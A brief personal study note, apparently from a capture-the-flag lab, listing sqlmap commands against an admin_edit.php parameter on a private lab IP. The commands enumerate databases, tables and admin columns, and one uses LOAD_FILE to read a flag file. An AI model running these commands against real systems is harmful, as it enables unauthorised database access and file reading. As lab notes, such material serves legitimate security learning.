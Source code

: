  07-08-2024 20:22
Status: #idea
Tags: [[Exploiting]]

# SQLMap

Comandos usados:

- `sqlmap -u http://10.10.48.53:84/admin_edit.php?bookisbn=1 --dbs`: Obtemos as bases de datos
- `sqlmap -u http://10.10.48.53:84/admin_edit.php?bookisbn=1 -D www_project -T admin --columns`: Obtemos as columnas da tabla admin, na base de datos www_project.
- `sqlmap -u http://10.10.48.53:84/admin_edit.php?bookisbn=1 -D www_project --tables`: Danos as tablas da base de datos.
- sqlmap -u http://10.10.80.230:84/admin_edit.php?bookisbn=1 --\sql-query "select LOAD_FILE('/opt/flag.txt')": Leer archivos.




---
# {{References}}